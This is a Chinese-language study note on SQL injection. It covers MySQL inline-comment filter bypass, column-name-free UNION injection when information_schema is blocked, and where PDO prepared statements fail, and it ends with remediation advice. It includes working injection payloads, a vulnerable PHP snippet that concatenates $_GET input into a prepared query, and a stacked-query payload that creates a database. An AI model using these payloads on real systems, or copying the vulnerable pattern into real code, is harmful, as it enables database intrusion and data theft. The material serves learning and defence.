### 内联注释

```mysql
# 如果加了!就会执行在/* */内的语句
/*!union select 1,2*/

# 要将整个语句写入/* */内
/*!union select */1,2 这是错误的


#  version 5.7.26
/*!00000 select 1,2*/; 	可以
/*!50726 select 1,2*/;  可以
/*!50727 select 1,2*/;  不可以

00000 到 50726之间是可以的
```


### 无列名注入

#### 场景

`information_schem`被过滤，不知道表的字段名

#### 解决方法

通过`select 数字`将字段名设置为数字



再用联合查询将需要的数据存到上图的表中


那么想要查询`users`表中的`username`字段的值

```mysql
select `2` from (select 1,2,3 union select * from user)别名;

# 别名是(select 1,2 union select * from user)返回的表的别名
```



```mysql
# 如果反引号被过滤
select group_concat(b) from (select 1,2 as b,3 union select * from users)a;
```




# 预编译问题

## 预编译失效

`PHP-PDO`采用本地预处理


传入`?username='admin'`,查看日志如下

> 开启永久日志,在配置文件中加入
>
> general_log = 1
> general_log_file = 日志路径



可以看到预编译为其自动添加了一对引号，并将用户输入的引号进行转义。

那么如果将表名，`order by xx`处进行预编译就会产生如下效果




可以看到这些语句"失效了"（没有得到想要的结果），所以在实际开发中，对于这些语句大概率就是进行一个拼接处理，就很可能存在sql注入。


## 预编译使用错误

- [ThinkPHP5 SQL注入漏洞 && PDO真/伪预处理分析 | 离别歌](https://www.leavesongs.com/PENETRATION/thinkphp5-in-sqlinjection.html)

- 堆叠注入

  ```php
  $id= $_GET['id'];
  # 预处理语句
  $stmt = $conn->prepare("select * from users where id=$id");
  $stmt->execute();
  $fraction = $stmt->fetch();
  print_r($fraction);
  ```

  使用模拟预编译，并且没有绑定参数

  又因为PDO默认可以支持多条SQL执行，所有造成了堆叠注入。

```mysql
  ?id=1;create database pdo;
```

  


# 漏洞修复

- 正确使用预编译+黑名单

- 配置问题

  ```
  站库分离
  不允许外连
  数据库以低权限运行
  不显示报错
  不使用多语句查询
  secure_file_priv=NULL
  字符集保持一致
  ```
  
  

# 参考文章

[Dnslog在SQL注入中的实战-安全客 - 安全资讯平台](https://www.anquanke.com/post/id/98096)

https://cloud.tencent.com/developer/article/1938545

[奇安信攻防社区-SQL注入&预编译](https://forum.butian.net/share/1559)

[PDO场景下的SQL注入探究 - 先知社区](https://xz.aliyun.com/t/3950)

